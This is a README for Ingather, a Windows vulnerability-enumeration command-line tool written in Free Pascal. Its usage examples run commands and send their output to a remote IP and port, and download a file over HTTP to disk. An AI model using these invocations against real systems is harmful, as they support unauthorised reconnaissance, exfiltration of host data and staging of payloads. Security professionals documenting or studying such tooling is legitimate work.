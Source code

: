 # Ingather

Windows vulnerability command line enumeration tool.  Written in Free Pascal/Lazarus: http://www.lazarus-ide.org/index.php?page=downloads.

```
Usage: Ingather.exe --enum -i 1.1.1.1 -p 4444 -o output.txt
       Ingather.exe -d http://www.abcded.com/abc.txt -s c:\temp\abc.text
       Ingather.exe -c "ipconfig /all" -i 1.1.1.1 -p 4444

Download file over HTTP:
       -d --download    : download file
       -s --save        : location to save downloaded file to
       -z               : use the Windows HTTP download function
                          otherwise use custom HTTP download function
Enumerate vulnerabilities:
       -e --enum        : enumerate host vulnerabilities
Output options:
       -c --command     : run command and send output across network
                          must be used with -i and -p
       -h --help        : print this help message
       -i --ip          : destination IP address
       -p --port        : destination port
       -o --out         : write enumeration command outputs to file
       -x               : just run basic enumeration commands
                          with no vulnerability analysis
                          requires (-i and -p) and/or -o
```

Reduce Lazarus EXE file size: http://lazplanet.blogspot.com/2013/03/how-to-reduce-exe-file-size-of-your.html

Synapse Lazarus TCP package:  http://www.ararat.cz/synapse/doku.php/download; Install: http://wiki.freepascal.org/Synapse#Installation

DISCLAIMER:
This program is for educational use and/or vulnerability enumeration by cyber security professionals only.  All responsability and negative consequences for its use falls entirely on the one executing it.
